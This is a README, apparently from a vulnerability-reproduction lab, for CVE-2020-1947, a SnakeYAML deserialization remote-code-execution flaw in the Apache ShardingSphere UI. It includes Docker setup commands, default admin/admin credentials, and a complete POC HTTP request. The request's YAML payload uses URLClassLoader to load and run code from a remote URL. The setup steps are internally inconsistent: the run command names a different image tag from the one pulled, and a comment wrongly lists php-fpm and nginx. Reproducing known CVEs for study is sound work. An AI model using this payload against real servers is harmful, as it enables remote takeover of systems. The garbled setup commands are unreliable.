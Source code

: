 ﻿# CVE-2020-1947

## Description

In Apache ShardingSphere(incubator) 4.0.0-RC3 and 4.0.0, the 
ShardingSphere's web console uses the SnakeYAML library for parsing YAML
 inputs to load datasource configuration. SnakeYAML allows to unmarshal 
data to a Java type By using the YAML tag. Unmarshalling untrusted data 
can lead to security flaws of RCE.

| Item           | Value                 | Remark    |
| -------------- | --------------------- | --------- |
| Risk Level     | HIGH                  |           |
| Attack Type    | Remote Code Execution |           |
| Attack Postion | Request Body          |           |
| Principle      |                       | SnakeYAML |

## Environment

`centos`:7.8.2003 + `jdk`:8u261 +  `shardingsphere`:4.0.0 + `zookeeper`:3.6.2

```bash
# downlaod docker(include php-fpm and nginx)
docker pull lubinlew/cve-2020-1947

# run the docker
docker run -d -p 40080:8088 --name cve-2020-1947 lubinlew/cve-2019-1947:latest
```

## Reappear

### login in shardingsphere

admin/admin

### Add a registry

![add-a-registry](.resources/images/CVE-2020-1947_add-registry.png)
![connect-registry](.resources/images/CVE-2020-1947_connect-registry.png)

### POC
```bash
POST /api/schema HTTP/1.1
Host: 10.130.12.127:8088
Content-Length: 282
Accept: application/json, text/plain, */*
Access-Token: YOUR-TOKEN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://10.130.12.127:8088
Referer: http://10.130.12.127:8088/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"name":"test schema","ruleConfiguration":"name: 1\nmasterDataSourceName: 2\nslaveDataSourceNames: [1,2,3]\nloadBalanceAlgorithmType: 4\n","dataSourceConfiguration":"!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"http://127.0.0.1:8000/\"]]]]"}
```

## References

[[CVE-2020-1947]Apache ShardingSphere UI YAML RCE](https://www.freesion.com/article/5095402881/)

[CVE-2020-1947 Sharding-UI的反序列化复现及分析 ](https://www.cnblogs.com/potatsoSec/p/12461330.html)
